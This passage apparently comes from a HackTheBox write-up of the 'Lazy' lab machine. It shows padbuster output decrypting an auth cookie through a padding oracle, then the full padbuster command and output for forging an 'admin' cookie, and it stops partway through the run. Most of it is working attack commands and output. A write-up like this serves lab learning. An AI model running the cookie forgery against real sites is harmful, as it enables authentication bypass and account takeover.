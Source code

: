 ```bash
[+] Success: (9/256) [Byte 3]
[+] Success: (166/256) [Byte 2]
[+] Success: (164/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 6f3f651e091a93ec
[+] Intermediate Bytes (HEX): 545df1517d121d81
[+] Plain Text: ro

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=shiro

[+] Decrypted value (HEX): 757365723D736869726F060606060606

[+] Decrypted value (Base64): dXNlcj1zaGlybwYGBgYGBg==

-------------------------------------------------------
```

Yay! It worked~

Now, we can provide `padbuster` with a plaintext and it will return us with a valid cookie!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Lazy]
└─# padbuster http://10.10.10.18/index.php IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs 8 -cookies auth=IxYyntb34ugmMvdXexQbh28%2FZR4JGpPs -encoding 0 -plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 979

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
```